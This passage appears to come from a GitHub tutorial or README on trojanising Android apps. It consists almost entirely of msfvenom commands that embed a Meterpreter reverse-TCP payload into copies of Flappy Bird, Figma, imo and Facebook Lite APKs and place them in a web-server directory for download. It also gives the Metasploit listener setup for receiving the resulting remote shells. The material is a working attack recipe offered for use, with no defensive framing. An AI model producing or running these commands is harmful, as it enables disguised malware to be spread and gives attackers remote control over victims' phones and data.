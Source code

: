 
```
msfconsole -q
```


_To automate the process or manually inject the payload using `apktool`:_

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.10.193 LPORT=8884 -x flappy-bird-1-3.apk -k -o /var/www/html/flappybird-inject.apk

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.10.193 LPORT=8885 -x figma.apk -k -o /var/www/html/figma-inject.apk

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.10.193 LPORT=8886 -x imo.apk -k -o /var/www/html/imo-inject.apk
```


```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.10.193 LPORT=8887 -x fb-lite.apk -k -o /var/www/html/fb-inject.apk
```


#### Start the Metasploit Listener:

```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp

set LHOST 192.168.10.193
set LPORT 8884

show options


exploit
run
```




### Links:
- [Apktool Install Guide](https://apktool.org/docs/install)
- [Apktools scripts](https://raw.githubusercontent.com/iBotPeaches/Apktool/master/scripts/linux/apktool)
- [Apktools scripts | github.com](https://github.com/iBotPeaches/Apktool/blob/master/scripts/linux/apktool)
- [Apktool Downloads | bitbucket.org](https://bitbucket.org/iBotPeaches/apktool/downloads/)
- [Apktool Tools install | video](https://www.youtube.com/watch?v=J326GXUFaz0)






